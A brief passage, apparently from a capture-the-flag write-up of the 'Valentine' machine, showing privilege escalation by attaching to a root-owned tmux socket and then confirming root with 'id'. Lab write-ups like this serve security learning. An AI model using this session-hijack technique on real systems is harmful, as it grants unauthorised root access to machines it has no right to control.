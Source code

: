 Look at the `root       1020  0.0  0.1  26416  1672 ?        Ss   21:51   0:01 /usr/bin/tmux -S /.devs/dev_sess` Line. The Tmux session is running as a root user which we can switch to.

```
hype@Valentine:/tmp$ tmux -S /.devs/dev_sess
root@Valentine:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
```
Get your root flag.